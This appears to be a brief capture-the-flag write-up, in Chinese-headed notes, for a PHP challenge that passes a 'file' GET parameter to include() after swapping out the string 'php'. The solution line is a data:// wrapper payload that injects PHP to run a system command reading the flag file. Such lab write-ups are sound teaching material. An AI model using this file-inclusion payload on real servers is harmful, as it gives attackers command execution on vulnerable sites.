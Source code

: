 # 知识点
# 思路
```bash
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
```bash
?file=data://text/palin,<?= system("tac flag.???") ?>
```
![image.png](./images/20231018_0001232050.png)
